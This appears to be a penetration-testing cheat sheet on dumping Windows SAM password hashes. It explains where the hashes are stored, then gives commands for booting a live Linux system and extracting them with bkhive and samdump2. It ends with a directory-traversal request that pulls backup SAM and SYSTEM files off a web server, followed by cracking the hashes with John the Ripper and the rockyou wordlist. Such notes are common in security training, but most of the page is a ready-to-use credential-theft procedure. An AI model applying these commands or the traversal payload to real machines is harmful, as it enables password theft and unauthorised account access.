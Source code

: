 * https://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html
* https://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes_16.html
* https://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes_20.html
* https://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes_21.html
* https://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes_28.html
* https://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes_29.html


# Dump Local Hashes
* The Security Accounts Manager (SAM) is a registry file in Windows NT and later versions until the most recent Windows 7. It stores users' passwords in a hashed format (in LM hash and NTLM hash). Since a hash function is one-way, this provides some measure of security for the storage of the passwords.

* Windows password hashes are located in the Windows SAM file, located on your system at C:\Windows\System32\config but is not accessible while the operating system is booted up.

* These values are also stored in the registry at HKEY_LOCAL_MACHINE\SAM, but again this area of the registry is also not accessible while the operating system is booted.


**Need to dump the hash files**

## Physical Access

* Preferred way to dump hash files:     
  Power off the machine, enter the BIOS menu at power-on time, review the boot order to allow boot from the optical drive and USB drive before local hard-disk, save the settings and reboot the system with your favourite GNU/Linux live distribution CD or USB stick

  - bkhive - dumps the syskey bootkey from a Windows system hive.
  - samdump2 - dumps Windows 2k/NT/XP/Vista password hashes.

  **Example of retrieving the SAM hashes from a Windows partition /dev/sda1:**
  ```
  # mkdir -p /mnt/sda1
  # mount /dev/sda1 /mnt/sda1
  # bkhive /mnt/sda1/Windows/System32/config/SYSTEM /tmp/saved-syskey.txt
  # samdump2 /mnt/sda1/Windows/System32/config/SAM /tmp/saved-syskey.txt > /tmp/hashes.txt
  ```

* Another option is to:  
  Copy the SYSTEM and SAM files from /mnt/sda1/Windows/System32/config to your USB stick and import them to any tool that is able to extract the SAM hashes from them: *Cain & Abel*, *creddump* and *mimikatz* are some available tools

* Sometimes you have access to older version of SAM & SYSTEM files:
```
http://192.168.31.161/%5C..%5C..%5C..%5C..%5C..%5CWindows/system32/config/RegBack/SAM.OLD
http://192.168.31.161/%5C..%5C..%5C..%5C..%5C..%5CWindows/system32/config/RegBack/SYSTEM.OLD

# samdump2 SYSTEM.OLD SAM.OLD > hash.txt
# john -wordlist (somethin)/rockyou.txt --format=NT hash.txt
```
